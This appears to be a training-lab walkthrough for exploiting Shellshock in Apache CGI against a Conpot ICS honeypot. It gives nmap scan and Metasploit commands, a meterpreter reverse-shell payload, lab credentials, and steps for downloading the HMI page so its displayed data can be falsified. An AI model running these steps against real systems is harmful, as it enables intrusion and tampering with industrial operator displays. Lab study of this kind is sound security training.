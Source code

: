 Shellshock, a critical vulnerability, targeted Unix-based systems through the popular Bash shell. It arose from mishandled environment variables, letting attackers inject malicious code for unauthorized access. This flaw risked extensive harm, from data breaches to full OS control. Rapid spread prompted quick patches by OS vendors, stressing proactive security and timely updates to prevent emerging risks.

Shellshock's impact was significant, exposing organizations and users to cyberattacks. Malicious actors exploited the vulnerability, causing financial losses, breaches, and reputational harm. The cybersecurity community responded with patches and strategies. OS vendors played a key role by releasing timely updates, and stressing their applications. Best practices emerged, like limiting Bash use and enhancing security. The incident highlighted the need for vigilant security to counter OS-level threats.
# Target Configuration

The Human-Machine Interface (HMI) is a graphical system enabling human interaction with machines, common in industrial and control settings. This system visually represents data and controls, and facilitates information exchange between operators and the monitored systems.

An HMI interface present within the Target machine will be exploited later on, allowing the display of a fabricated value instead of the genuine data.

Prior preparation is essential before taking the next step.

To disable the SNMP server, follow these steps on the simulated system that has its own SNMP server running.
`sudo service snmpd stop`

Next, initiate the Apache Web server, running alongside the target HMI Web server. The Apache server contains a bash script that could be exploited if the operating system is vulnerable to Shellshock.
Start the Apache server using the following command:
`sudo service apache2 start`
# Shellshock check

Shellshock is a critical vulnerability in Unix-based systems, including the **Apache HTTP Server with CGI** enabled. This vulnerability allows attackers to execute malicious code through improper input handling in the Bash shell's environment variables. This can lead to unauthorized access and data breaches.

To assess the Target machine for the Shellshock vulnerability, initiate an nmap scan.
On the Student machine, open the terminal window and input the following command.

`nmap -sV -p- --script http-shellshock --script-args uri=/cgi-bin/shockme.cgi 192.168.1.102 --unprivileged`

Utilizing the Nmap command, a scan is conducted on the Target to identify the Shellshock vulnerability, with a specific emphasis on the provided URI.

Upon the completion of the Nmap scan, the presence of the Shellshock vulnerability is confirmed and additional reference information about the vulnerability is provided.
# Starting Conpot

Conpot is an open-source honeypot software designed to emulate various industrial control systems (ICS) protocols, like Modbus, DNP3, and S7comm, enabling the creation of realistic-looking ICS environments to detect and analyze attacks, gather threat intelligence, and employ features such as logging, alerting, and SNMP server simulation.
First, navigate back to the Target machine and log in as the user conpot:
`su conpot`

When prompted for the password, enter conpot:
`conpot`

Lastly, to initiate Conpot, enter the following command:

`/home/conpot/.local/bin/conpot --template default --logfile /var/log/conpot/conpot.log -f --temp_dir /tmp`

Based on the output of conpot when u ran it, what port did IPMI start on? 
![[Pasted image 20250804183339.png]]
# Visiting the HMI page

Navigate to the Student machine and open a Firefox tab.
Utilize the provided link below to reach the HMI page.

http://192.168.1.102:8800

Later in the process, the system uptime will be manipulated to display an arbitrary value on the page.
### Starting Metasploit

The Metasploit framework is a powerful open-source tool used for penetration testing and exploiting vulnerabilities in computer systems. The framework provides a vast collection of exploits, payloads, and auxiliary modules, making it an essential resource for security professionals.

Initiate the Metasploit Framework by entering the provided command in the terminal.
`msfconsole`
# Metasploit Configuration

In the Metasploit console, execute the provided command to select the "apache mod_cgi Bash Environment Variable Code Injection" option.
`use exploit/multi/http/apache_mod_cgi_bash_env_exec`

Set the RHOST variable to:
`set RHOSTS 192.168.1.102`

After performing a scan on the Target machine using the provided URI (/cgi-bin/shockme.cgi) to detect the shellshock vulnerability, the results revealed the vulnerability of the Target host. Proceed by configuring the TARGETURI variable to:
`set TARGETURI /cgi-bin/shockme.cgi`

Set the Payload variable to:
`set PAYLOAD linux/x86/meterpreter/reverse_tcp`

Lastly, to confirm the changes made use the following command:
`show options`

What is the RPORT of the target? 80
The preparation for Shellshock exploitation is complete.

With the settings meeting the requirements, initiate the module by executing the following command:
`exploit`
# Directory Permissions and Downloading HMI code

While in the Meterpreter session on the Student machine, it is crucial to inspect the permissions of the folder where the HMI files that must be modified are located. This preliminary assessment is a necessary step before proceeding with any alterations to the contents of the folder. By default, the SCADA Conpot HMI interface files are stored within the specified path below.

`ls /home/conpot/.local/lib/python3.8/site-packages/conpot/templates/default/http/htdocs/`

The folder is world-writable, enabling the creation or uploading of new files.
Navigate to the designated file path, where the HMI code possesses the required permissions for both downloading and uploading files. Do so by entering the following command within the Meterpreter session.

`cd /home/conpot/.local/lib/python3.8/site-packages/conpot/templates/default/http/htdocs/`

Retrieve the "index.html" file, which will be edited to display arbitrary data.
`download index.html`

